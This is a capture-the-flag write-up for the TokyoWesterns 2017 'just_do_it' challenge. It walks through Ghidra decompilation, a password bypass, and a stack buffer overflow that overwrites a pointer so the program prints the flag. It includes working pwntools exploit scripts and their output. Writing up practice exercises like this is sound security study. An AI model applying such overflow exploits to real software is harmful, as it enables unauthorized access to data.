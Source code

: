 # Just Do It!

This was originally a pwn challenge from the TokyoWesterns 2017 ctf.

Let's take a look at the binary:

```
$    file just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=cf72d1d758e59a5b9912e0e83c3af92175c6f629, not stripped
```

```
$    pwn checksec just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
[*] '/Hackery/west/doit/just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

So we can see that it is a 32 bit binary, with a non executable stack. Let's try to run it.

```
$    ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa
file open error.
: No such file or directory
```

So it is complaining about a file opening error, probably trying to open a file that isn't there. Let's look at the main function in Ghidra:

```
undefined4 main(void)

{
  char local_EAX_154;
  FILE *flagFile;
  int cmp;
  char vulnBuf [16];
  FILE *flagHandle;
  char *target;

  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  target = failed_message;
  flagFile = fopen("flag.txt","r");
  if (flagFile == (FILE *)0x0) {
    perror("file open error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  _local_EAX_154 = fgets(flag,0x30,flagFile);
  if (_local_EAX_154 == (char *)0x0) {
    perror("file read error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Welcome my secret service. Do you know the password?");
  puts("Input the password.");
  _local_EAX_154 = fgets(vulnBuf,0x20,stdin);
  if (_local_EAX_154 == (char *)0x0) {
    perror("input error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  cmp = strcmp(vulnBuf,PASSWORD);
  if (cmp == 0) {
    target = success_message;
  }
  puts(target);
  return 0;
}
```

So we can see that the file it is trying to open is `flag.txt`. We can also see that this binary will essentially prompt you for a password, and if it is the right password it will print in a logged in message. If not it will print an authentication error. Let's see what the value of `PASSWORD` is, so we can know what we need to set our input equal to to pass the check:

```
                             PASSWORD                                        XREF[2]:     Entry Point(*), main:080486d0(R)
        0804a03c c8 87 04 08     addr       s_P@SSW0RD_080487c8                              = "P@SSW0RD"
```

So we can see that the string it is checking for is `P@SSW0RD`. Now since our input is being scanned in through an fgets call, a newline character `0x0a` will be appended to the end. So in order to pass the check we will need to put a null byte after `P@SSW0RD`. Here is some python3 code to accomplish that:

```
# Import pwntool utils
from pwn import process, p32

# Establish target process
target = process('just_do_it')

# Print out the starting prompt
print(target.recvuntil(b"password.\n"))

# Semd the password
target.sendline(b"P@SSW0RD\x00")

# Drop to an interactive shell, so we can read everything the binary
target.interactive()
```

When we run it, we see that we have successfully authenticated:

```
$ python3 password.py 
[!] Could not find executable 'just_do_it' in $PATH, using './just_do_it' instead
[+] Starting local process './just_do_it': pid 6263
b'Welcome my secret service. Do you know the password?\nInput the password.\n'
[*] Switching to interactive mode
[*] Process './just_do_it' stopped with exit code 0 (pid 6263)
Correct Password, Welcome!
[*] Got EOF while reading in interactive
$ 
[*] Got EOF while sending in interactive
Traceback (most recent call last):
  File "/usr/local/lib/python3.8/dist-packages/pwnlib/tubes/process.py", line 787, in close
    fd.close()
BrokenPipeError: [Errno 32] Broken pipe
```

So we passed the check, however that doesn't solve the challenge. We can see that with the fgets call, we can input 32 bytes worth of data into `vulnBuf`. Let's see how many bytes `vulnBuf` can hold:

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main(undefined1 param_1)
             undefined         AL:1           <RETURN>                                XREF[1]:     0804861d(W)
             undefined1        Stack[0x4]:1   param_1                                 XREF[1]:     080485bb(*)
             FILE *            EAX:4          flagFile                                XREF[2]:     0804861d(W),
                                                                                                   08048655(W)
             char              AL:1           local_EAX_154                           XREF[2]:     08048655(W),
                                                                                                   080486dd(W)
             int               EAX:4          cmp                                     XREF[1]:     080486dd(W)
             undefined4        Stack[0x0]:4   local_res0                              XREF[1]:     080485c2(R)
             undefined4        Stack[-0xc]:4  local_c                                 XREF[1]:     08048704(R)
             char *            Stack[-0x14]:4 target                                  XREF[2]:     0804860d(W),
                                                                                                   080486ee(W)
             FILE *            Stack[-0x18]:4 flagHandle                              XREF[3]:     08048625(W),
                                                                                                   08048628(R),
                                                                                                   0804864b(R)
             char[16]          Stack[-0x28]   vulnBuf                                 XREF[2]:     080486a6(*),
                                                                                                   080486d9(*)
                             main                                            XREF[4]:     Entry Point(*),
                                                                                          _start:080484d7(*), 0804886c,
                                                                                          080488c8(*)
        080485bb 8d 4c 24 04     LEA        ECX=>param_1,[ESP + 0x4]
```

So we can see that it can hold 16 bytes worth of data (0x28 - 0x18 = 16). So we effectively have a buffer overflow vulnerability with the fgets call to `vulnBuf`. However it appears that we can't reach the `eip` register to get RCE. However we can reach `target` which is printed with a puts call, right before the function returns. So we can print whatever we want. That makes this code look really helpful:

```
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    perror("file open error.\n");
    exit(0);
  }
  if ( !fgets(flag, 48, stream) )
  {
    perror("file read error.\n");
    exit(0);
  }
```

So we can see here that after it opens the `flag.txt` file, it scans 48 bytes worth of data into `flag`. This is interesting because if we can find the address of `flag`, then we should be able to overwrite the value of `target` with that address and then it should print out the contents of `flag`, which should be the flag.

```
  .bss:0804A080 ; char flag[48]
.bss:0804A080 flag            db 30h dup(?)           ; DATA XREF: main+95o
.bss:0804A080 _bss            ends
.bss:0804A080
```

So here we can see that `flag` lives in the bss, with the address `0x0804a080`. There are 20 bytes worth of data between `vulnBuf` and `target` (0x28 - 0x14 = 20). So we can form a payload with 20 null bytes, followed by the address of `flag`. With this payload, we will be able to read the contents of `flag.txt` with our exploit. Let's write an exploit to do this:

```
# Import pwntool utils
from pwn import process, remote, p32

# Create the remote connection to the challenge
target = process('just_do_it')
#target = remote('pwn1.chal.ctf.westerns.tokyo', 12482)

# Print out the starting prompt
print(target.recvuntil(b"password.\n"))

# Create the payload
payload = b"\x00"*20 + p32(0x0804a080)

# Send the payload
target.sendline(payload)

# Drop to an interactive shell, so we can read everything the server prints out
target.interactive()
```

Now let's run it:

```
$ python3 exploit.py 
[!] Could not find executable 'just_do_it' in $PATH, using './just_do_it' instead
[+] Starting local process './just_do_it': pid 6167
b'Welcome my secret service. Do you know the password?\nInput the password.\n'
[*] Switching to interactive mode
[*] Process './just_do_it' stopped with exit code 0 (pid 6167)
TWCTF{pwnable_warmup_I_did_it!}

[*] Got EOF while reading in interactive
$ 
[*] Got EOF while sending in interactive
Traceback (most recent call last):
  File "/usr/local/lib/python3.8/dist-packages/pwnlib/tubes/process.py", line 787, in close
    fd.close()
BrokenPipeError: [Errno 32] Broken pipe
guyinatuxedo@ubuntu:/Hackery/nightmare/modules/0
```

Just like that, we captured the flag!
